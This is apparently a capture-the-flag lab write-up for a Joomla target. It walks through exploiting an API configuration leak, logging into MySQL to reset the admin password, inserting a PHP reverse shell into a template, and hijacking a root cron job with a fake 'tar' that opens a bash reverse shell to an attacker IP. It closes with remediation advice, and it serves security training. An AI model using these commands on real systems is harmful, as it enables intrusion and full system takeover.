# CMS101 - Virtual Hacking Lab

| Info          | Details                                   |
| ------------- | ----------------------------------------- |
| Platform      | Virtual Hacking Lab                       |
| Difficulty    | Advanced                                  |
| Target IP     | 10.11.1.178                               |
| OS            | Linux                                   |
| Vulnerability | Joomla Information Disclosure → Admin Access → RCE → Cron Privilege Escalation |
| Tools Used    | Nmap, Gobuster, Searchsploit              |

## Attack Path
1. Reconnaissance
2. Port Scanning (Nmap)
3. Web Enumeration
4. Joomla API Information Disclosure
5. Database Credential Leak
6. Admin Password Reset
7. Joomla Admin Access
8. Template PHP RCE
9. Initial Shell (apache)
10. Cron Job Privilege Escalation
11. Root Shell
12. Capture Flag

## Environment Setup

First, create a working directory and files to organize enumeration results.

```bash
mkdir cms101
cd cms101
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```
## Network Scanning

Identify the target IP and perform a full port scan.

```bash
ip='10.11.1.178'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



## FTP enumeration

Login with anonymous users

```bash
ftp $ip
anonymous::anonymous
```



The FTP service did not allow anonymous access and no additional credentials were available.

Focus shifted to the web application.

## Web Enumeration

Web App page:



Navigating to the web server revealed a CMS login interface, suggesting the presence of a content management system.

Before interacting with the login page, directory enumeration was performed.

``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42

# dirsearch
dirsearch -u $ip
```

GoBuster: 



Dirsearch:



```bash
# Discovered Interesting directory
/administrator - Joomla (No version showed)
/robots.txt 
/tmp - Blank Page
/web-config.txt - no useful information
```

/robots.txt: The robots.txt file listed several directories but most returned blank pages.



/administrator: revealed a Joomla administration login page.



Since the CMS version was not directly displayed, further vulnerability research was conducted.

## Exploitation

During research, a public exploit for Joomla configuration disclosure was discovered.

Reference:

`https://www.vulncheck.com/blog/joomla-for-rce`

```bash
curl -v http://10.11.1.178/api/index.php/v1/config/application?public=true
```



Test the vulnerable API endpoint:

Sensitive configuration information was exposed, including database credentials.

## Mysql

Using the leaked credentials, connect to the MySQL database.

```bash
mysql -h $ip -u joomla --skip-ssl -p
PasSw0RdjO0ml4
```

Enumerate databases:

```bash
show databases;
use joomla;
show tables;
SELECT username, password FROM eqa2g_users;
```



This revealed the Joomla administrator account.

Instead of cracking the password hash, directly update the password.

```bash
Update eqa2g_users
SET PASSWORD = MD5("IamHacker123")
WHERE id = 913;
```





## Web App

Login to the administrator panel.

```bash
joomlaadmin::IamHacker123
```



Successful authentication provided administrator access to the CMS.

Navigate to System > Site Templates > Cassiopeia Details and Files> index.php



Insert a PHP reverse shell payload (PentestMonkey PHP reverse shell) into index.php.

Start a listener on the attacker machine. Then navigate to index.php to trigger the rce code.

```bash
sudo nc -lnvp 4444
```



Successful got the remote shell, run as apache

## Linux Privilege Escalation

Check scheduled tasks.

```bash 
cat /etc/crontab
```



Results shows root running every 5 mins for backup.sh

```bash
cat /usr/local/bin/backup.sh
```



The script used the tar command.

If the PATH is not properly defined, this can allow PATH hijacking.

The apache user had write permission in `/var/www/html/administrator`

```bash
cd /var/www/html/administrator

# create a malicious tar binary code
echo 'bash -c "bash -i >& /dev/tcp/172.16.1.2/1111 0>&1"' > tar

chmod +x tar
```

When the cron job executes, it runs the malicious tar binary instead of the system tar.

Open another terminal for listener

```bash
sudo nc -lnvp 1111
```

Success received a root web shell

```bash
whoami
id
cat /root/key.txt
```



# Remediation

Several security weaknesses allowed the compromise of this system.

1. *Patch Joomla CMS*

The Joomla API endpoint leaked sensitive configuration data.

Mitigation:

Update Joomla to the latest secure version

Disable public access to configuration endpoints

2. *Protect Database Credentials*

Database credentials were exposed via the API.

Mitigation:

Store secrets securely

Restrict API responses from exposing configuration details

3. *Restrict Database Remote Access*

MySQL allowed external connections.

Mitigation:

Bind MySQL to localhost

Use firewall rules to restrict database access

4. *Harden Joomla Administrator Access*

Administrative panels should be protected using:

Strong passwords

Multi-factor authentication

IP restrictions or VPN access

5. *Disable Template Editing in Production*

Allowing administrators to edit template files directly enables RCE.

Mitigation:

Disable file editing within CMS panels

Use role-based access control

6. *Secure Cron Jobs*

The backup script allowed PATH hijacking.

Mitigation:

Use full binary paths in scripts

Example:

/bin/tar

Restrict write permissions on directories in the execution path.

7. *Apply Principle of Least Privilege*

The web server should not have write access to sensitive directories.

Mitigation:

Restrict filesystem permissions

Run web services with minimal privileges